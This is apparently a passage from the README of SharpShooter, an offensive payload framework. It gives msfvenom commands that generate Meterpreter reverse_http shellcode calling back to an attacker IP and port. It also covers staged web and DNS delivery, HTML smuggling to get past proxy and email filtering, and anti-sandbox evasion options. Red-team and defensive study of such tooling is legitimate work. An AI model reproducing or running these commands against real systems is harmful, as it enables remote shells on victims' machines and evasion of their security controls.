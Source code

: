 On 64-bit systems you must use x64 shellcode for JS/JSE, VBS/VBE and WSF payloads; you can generate it using msfvenom similar to the following:

```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=172.16.164.203 LPORT=8080 EnableStageEncoding=True PrependMigrate=True -f csharp
```

For 32-bit or when handling HTA files, the shellcode must be x86 and can be generated as follows:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=172.16.164.203 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp
```

When using web delivery, SharpShooter will prompt for the location where your CSharp payload is hosted:

```
[*] Provide URI for CSharp web delivery
```

Here you should provide the URL to where you've hosted the output.payload file. If you're using DNS delivery, you should provide the staging host where PowerDNS is running. It should be noted that SharpShooter will fallback to DNS delivery if web delivery fails, for example should your user not be able to make web requests in your target environment.

```
[*] Do you want to smuggle inside HTML?
```

When SharpShooter prompts as above, it offers the ability to perform a HTML smuggling attack. This will take the previously generated SharpShooter payload and embed it inside a HTML file, rc4 encrypted and retrievable via most modern browsers. This file can be useful for bypassing certain proxy restrictions such as MIME type or extension blocking, or submiting the payload via e-mail as HTML is a permitted attachment in most mail clients.
SharpShooter contains 2 pre-defined templates; it is recommended you create a custom template using these as an example.

Usage - Command Line Mode:
======

SharpShooter is highly configurable, supporting a number of different payload types, sandbox evasions, delivery methods and output types.

Running SharpShooter with the --help argument will produce the following output:

```
usage: SharpShooter.py [-h] [--interactive] [--stageless] [--dotnetver <ver>]
                       [--payload <format>] [--sandbox <types>]
                       [--delivery <type>] [--rawscfile <path>] [--shellcode]
                       [--scfile <path>] [--refs <refs>] [--namespace <ns>]
                       [--entrypoint <ep>] [--web <web>] [--dns <dns>]
                       [--output <output>] [--smuggle] [--template <tpl>]

optional arguments:
  -h, --help          show this help message and exit
  --interactive       Use the interactive menu
  --stageless         Create a stageless payload
  --dotnetver <ver>   Target .NET Version: 2 or 4
  --payload <format>  Payload type: hta, js, jse, vba, vbe, vbs, wsf
  --sandbox <types>   Anti-sandbox techniques:
                      [1] Key to Domain (e.g. 1=CONTOSO)
                      [2] Ensure Domain Joined
                      [3] Check for Sandbox Artifacts
                      [4] Check for Bad MACs
                      [5] Check for Debugging
  --delivery <type>   Delivery method: web, dns, both
  --rawscfile <path>  Path to raw shellcode file for stageless payloads
  --shellcode         Use built in shellcode execution
  --scfile <path>     Path to shellcode file as CSharp byte array
```